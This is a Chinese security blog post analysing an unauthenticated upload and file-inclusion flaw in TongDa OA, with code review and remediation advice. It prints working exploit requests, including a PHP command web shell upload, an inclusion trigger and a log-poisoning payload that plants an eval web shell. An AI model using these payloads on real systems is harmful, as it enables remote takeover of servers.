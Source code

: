 ```yaml
---
layout: post
title:  "通达OA文件包含漏洞"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA文件上传和文件包含漏洞分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

在2020年3月初的时候，有安全厂商发布公告称通达OA被入侵后被黑产利用。今日再来分析此漏洞的时候发现，其实和文件上传没关系，也根本不是任意文件上传漏洞。而是一个思路很好的文件包含漏洞。漏洞的触发条件是在无需登录的条件下上传一个jpg等其他图片格或其他文件格式的非PHP格式的文件即可，然后再利用文件包含漏洞去包含导致漏洞触发。漏洞问题的触发点在于文件包含。除了剪切图片操作之外，很难保证上传图片的内容安全。

影响版本：V11版、2017版、2016版、2015版、2013增强版、2013版（具体未实际测试）

1.文件上传的数据包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Content-Length: 658

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

2.文件包含数据包：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

json={"url":"/general/../../attach/im/2006/2097931002.zip"}&cmd=whoami
```



## 0x02 漏洞分析

### 一、文件上传

- /ispirit/im/upload.php:5-13行。5行进行判断，变量P存在并不为空的话则执行6-10行代码。如果变量P不存在，或者是等于空的话。则执行else语句，包含auth.php。

  ```php
  if (isset($P) || ($P != "")) {
  	ob_start();
  	include_once "inc/session.php";
  	session_id($P);
  	session_start();
  	session_write_close();
  }
  else {
  	include_once "./auth.php";
  }
  ```

- ispirit\im\auth.php。查看auth.php代码，发现此文件作用为校验用户是否登录。所以如果P存在，并且不为空的话即可在非登录状态下进行上传。

  ```php
  include_once "inc/session.php";
  session_start();
  session_write_close();
  include_once "inc/conn.php";
  include_once "inc/utility.php";
  ob_start();
  if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  	sleep(1);
  	if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  		echo "-ERR " . _("用户未登陆");
  		exit();
  ```

### 二、文件包含

- /mac/gateway.php:41行。对url进行了包含处理。

  ```php
  	if ($url != "") {
  		if (substr($url, 0, 1) == "/") {
  			$url = substr($url, 1);
  		}
  		include_once $url;
  	}
  ```

- 

**思考：**其实这个地方除了可以通过文件上传之后进行包含之外，也可以通过包含其他文件进行利用，比如包含日志文件：

poc1：

```
GET /mac/gateway.php?json={}&aa=<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?> HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=b51a8646; PHPSESSID=olai0tkt0oqhcblhha71f42q21; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
```

poc2：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

json={"url":"../ispirit/../../nginx/logs/oa.access.log"}
```

执行完poc1和poc2之后，便会在mac目录下生成lost.php。

### 三、漏洞修复

- url参数禁止用户可控。
- 在路径中禁止出现./等字符。

## 0x03 参考链接

- http://www.0e0w.com
